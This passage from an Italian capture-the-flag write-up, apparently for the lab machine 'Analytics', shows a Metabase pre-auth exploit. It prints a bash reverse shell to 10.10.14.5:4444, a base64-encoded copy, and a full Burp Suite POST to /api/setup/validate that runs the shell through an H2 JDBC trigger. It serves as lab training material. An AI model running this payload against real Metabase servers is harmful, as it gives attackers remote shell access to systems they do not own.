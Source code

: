   <img src="/Immagini/Linux-Box/Analytics/analytics-3.png" />
</p>

Successivamente, utilizzo _burpsuite_ per inviare una richiesta e creare una reverse-shell. Prima però avvio un listener sulla porta 4444 e codifico, in base 64, il seguente comando:

```text
bash -i >&/dev/tcp/10.10.14.5/4444 0>&1
```

```text
YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjUvNDQ0NCAwPiYx
```

Quindi, invio questa richiesta tramite _burpsuite_:

```text
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 812

{
    "token": "5491c003-41c2-482d-bab4-6e174aa1738c",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjUvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```